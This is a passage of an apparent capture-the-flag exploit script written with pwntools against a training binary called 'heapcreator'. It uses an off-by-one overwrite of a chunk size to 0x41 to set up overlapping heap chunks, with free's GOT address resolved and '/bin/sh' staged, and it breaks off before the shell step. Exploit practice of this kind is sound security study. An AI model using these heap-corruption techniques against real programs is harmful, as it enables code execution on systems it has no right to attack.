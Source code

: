 ```python
        p.send(content)

    def Edit(index,content):
        p.recvuntil("Your choice :")
        p.send('2')
        p.recvuntil("Index :")
        p.send(str(index))
        p.recvuntil("Content of heap : ")
        p.send(content)

    def Show(index):
        p.recvuntil("Your choice :")
        p.send('3')
        p.recvuntil("Index :")
        p.send(str(index))
        p.recvuntil("Size : ")
        size = int(p.recvuntil('\n',drop=True))
        p.recvuntil("Content : ")
        content = p.recvuntil('\n',drop=True)
        return size,content

    def Delete(index):
        p.recvuntil("Your choice :")
        p.send('4')
        p.recvuntil('Index :')
        p.send(str(index))

    def Exit():
        p.recvuntil("Your choice :")
        p.send('5')

    def debug():
        gdb.attach(p)
        pause()

    free_got = ELF('./heapcreator',checksec=False).got['free']
    Create(0x18,'AAAA')
    Create(0x18,'BBBB')
    # 0x182a000:    0x0000000000000000  0x0000000000000021 <== chunk1's struct
    # 0x182a010:    0x0000000000000018  0x000000000182a030 <== ponit to chunk1's size and content
    # 0x182a020:    0x0000000000000000  0x0000000000000021 <== chunk1's content
    # 0x182a030:    0x0000000041414141  0x0000000000000000
    # 0x182a040:    0x0000000000000000  0x0000000000000021 <== chunk2's strcut
    # 0x182a050:    0x0000000000000018  0x000000000182a070
    # 0x182a060:    0x0000000000000000  0x0000000000000021 <== chunk2's content
    # 0x182a070:    0x0000000042424242  0x0000000000000000

    # debug()
    Edit(0, '/bin/sh\x00'+"a"*0x10+"\x41")
    # 0xb5f000: 0x0000000000000000  0x0000000000000021 <== chunk1's struct
    # 0xb5f010: 0x0000000000000018  0x0000000000b5f030 <== ponit to chunk1's size and content
    # 0xb5f020: 0x0000000000000000  0x0000000000000021 <== chunk1's content
    # 0xb5f030: 0x0068732f6e69622f  0x6161616161616161
    # 0xb5f040: 0x6161616161616161  0x0000000000000041 <== chunk2's strcut's fake size
    # 0xb5f050: 0x0000000000000018  0x0000000000b5f070 <== point to chunk2's size and content
    # 0xb5f060: 0x0000000000000000  0x0000000000000021 <== chunk2's content
    # 0xb5f070: 0x0000000042424242  0x0000000000000000

    # overwrite heap 2's size to 0x41

    # debug()
    Delete(1)
    # debug()
```